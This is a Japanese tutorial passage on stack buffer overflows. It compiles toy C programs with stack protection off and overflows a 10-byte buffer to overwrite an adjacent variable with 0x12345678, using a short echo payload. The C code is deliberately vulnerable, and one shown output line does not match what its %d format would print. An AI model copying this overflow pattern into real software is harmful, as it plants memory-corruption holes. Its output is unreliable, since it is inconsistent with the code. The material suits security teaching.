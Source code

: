 ```cpp
```

上のコードを32bit向け, SSP(stack smash protection)無効でコンパイルする.
この後, `AAAAAAAAAAAAAAAAAAAA`のような文字列を与えることでbuffer overflowを意図的に引き起こす。

```bash
$ gcc -m32 -fno-stack-protector ./bof1 ./bof1.c
$ ./bof1
buffer address  = ffffd062
zero address    = ffffd06c
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zero = 1094795585
Segmentation fault (core dumped)
```

ここで, buffer addressが`ffffd062`で, zero addressが`ffffd06c`なのは, 
main関数の中で順番に変数がstackに積まれて行くから(`ffffd062` + `10` = `ffffd06c`)。


実行結果が, `1094795585`となっているのは, `AAAA`=`0x41414141` = `1094795585`だから。

これを用いて, 任意の値を`zero`に代入してみる。

## bofを活用した, 任意の数字の書き換え

```cpp
#include <stdio.h>

int main(int argc, char *argv[]){
  int zero = 0;
  char buffer[10];

  printf("buffer address\t= %x\n", (int)buffer);
  printf("zero address\t= %x\n", (int)&zero);
  
  fgets(buffer, 64, stdin);
  printf("zero = %d\n", zero);
  if (zero == 0x12345678){
    printf("congrats!\n");
  }
  return 0;
}
```

これも, 先ほどと同様に, SSP無効でコンパイル。
この後, bufferの10バイト文を適当な文字で埋めてから, 0x12345678で埋める。

```bash
$ gcc -m32 -fno-stack-protector -o ./bof2 ./bof2.c
$ echo -e 'AAAAAAAAAA\x78\x56\x34\x12' | ./bof2
buffer address                         = ffffd062
zero address                           = ffffd06c
zero = 12345678
congrats!
Segmentation fault (core dumped)
```
